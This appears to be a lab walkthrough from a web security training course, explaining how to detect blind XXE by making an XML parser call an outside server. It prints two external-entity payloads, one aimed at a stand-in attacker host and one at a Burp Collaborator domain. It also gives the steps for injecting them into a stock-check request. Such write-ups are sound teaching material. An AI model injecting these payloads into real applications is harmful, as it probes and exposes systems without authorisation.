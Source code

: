 ## Introduction
- You can often detect blind XXE using the same technique as for [[Exploiting_XXE_to_perform_SSRF_attacks(lab-2)]] attacks but triggering the out-of-band network interaction to a system that you control.

**Example** - 
you would define an external entity as follows:
```python
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```
- You would then make use of the defined entity in a data value within the XML.
- This XXE attack causes the server to make a back-end HTTP request to the specified URL.
- The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful.

## Steps to solve lab
### Desc - Blind XXE with out-of-band interaction
**Our end goal** - To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

1. Now, first we send the `POST /product/stock` to Burp "Repeater". 
![[XXE6.png]]

2. Now, add `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://vrqxnlz7g7gbb3t5r1qlvan7myspgf44.oastify.com"> ]>` below to the `XML` element and above the `stockCheck` element in the below request.
![[XXE7.png]]

Add collaborator domain and external entity in the place of data value as described below:
![[XXE8.png]]

**In burp collaborator tab click on "Poll Now"** - 
![[XXE9.png]]

